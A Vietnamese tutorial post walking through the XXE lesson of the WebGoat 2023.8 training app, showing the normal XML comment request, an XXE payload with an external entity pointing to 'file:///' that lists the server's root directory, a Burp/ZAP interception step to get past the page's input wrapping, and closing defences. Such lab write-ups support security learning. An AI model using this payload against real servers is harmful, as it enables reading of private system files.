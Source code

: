 ```yaml
---
title: 1.05 | XXE
slug: XXE-05
description: Bài viết này sẽ hướng dẫn cách tấn công XXE trên WebGoat 2023.8
image: https://tiennhm.github.io/img/docs/database.jpg
sidebar_position: 1
# sidebar_class_name: hidden
tags: 
    - web-security
    - webgoat
    - security-misconfiguration
    - xxe
    - webgoat-2023.8
keywords: [web-security, webgoat, security-misconfiguration, xxe, webgoat-2023.8]
enableComments: true # for Gisqus comments, set to true
draft: false # set to true to hide this post from the site
---
```


> 🛠 **XXE Injection - Giải pháp hoàn chỉnh**  

## 🎯 **Mục tiêu bài tập**
- **Liệt kê thư mục gốc của hệ thống** bằng XXE Injection.
- **Phát hiện và bypass cơ chế kiểm tra đầu vào** của WebGoat.
- **Chặn và chỉnh sửa request HTTP** để thực hiện tấn công.


## 🔥 **1. Phân tích yêu cầu**
### **📌 Request ban đầu khi gửi comment bình thường**
```http
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0"?>
<comment>
  <text>This is my first comment, nice picture</text>
</comment>
```
👉 **Nhận xét:**  
- Request được gửi dưới dạng **XML**.
- Comment được hiển thị trên trang web sau khi gửi.
- **Chúng ta cần chỉnh sửa request này để thực hiện XXE Injection**.


## 🚀 **2. Thực hiện XXE Injection**
### **📌 Cách gửi payload XXE**
Chặn request bằng **Burp Suite/ZAP Proxy**, sau đó thay thế body như sau:

```http
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]>
<comment>
  <text>&root;</text>
</comment>
```
✅ **Giải thích:**  
- **`<!DOCTYPE user [...]>`**: Khai báo **DOCTYPE** để sử dụng entities.
- **`<!ENTITY root SYSTEM "file:///">`**: Đọc thư mục gốc của hệ thống.
- **`<text>&root;</text>`**: Chèn nội dung thư mục vào phản hồi.


## ❌ **3. Lỗi gặp phải và cách bypass**
Nếu dán trực tiếp payload vào ô nhập comment, ta nhận được lỗi:
```json
{
  "lessonCompleted" : false,
  "feedback" : "Sorry the solution is not correct, please try again.",
  "output" : "...javax.xml.stream.XMLStreamException: ParseError at [row,col]:[1,44]\\nMessage: The processing instruction target matching \\\"[xX][mM][lL]\\\" is not allowed.]"
}
```
👉 **Lý do:**  
- JavaScript trên trang web tự động **bọc nội dung input vào cặp `<text>...</text>`**.
- Điều này khiến **XML của chúng ta bị lỗi khi gửi đi**.


## 🛠 **4. Cách khắc phục**
✅ **Dùng Burp Suite hoặc ZAP để chặn và chỉnh sửa request**:  
1. **Bật Intercept Mode trong Burp/ZAP**.  
2. **Gửi một comment bình thường**.  
3. **Chỉnh sửa request trong Intercept và thay thế toàn bộ body bằng payload XXE**.  
4. **Gửi lại request và kiểm tra phản hồi**.


## 🎯 **5. Kiểm tra phản hồi**
- Nếu request thành công, server sẽ trả về danh sách thư mục gốc (`bin, etc, home...`).
- Nếu không, server có thể đã **vô hiệu hóa XXE**, cần thử cách khác.


## 🛡 **6. Cách phòng chống XXE**
- **Vô hiệu hóa DOCTYPE trong XML parser**.
- **Không cho phép đọc external entities (`SYSTEM "file:///"`)**.
- **Sử dụng JSON thay vì XML nếu có thể**.
- **Dùng WAF để phát hiện payload XXE**.
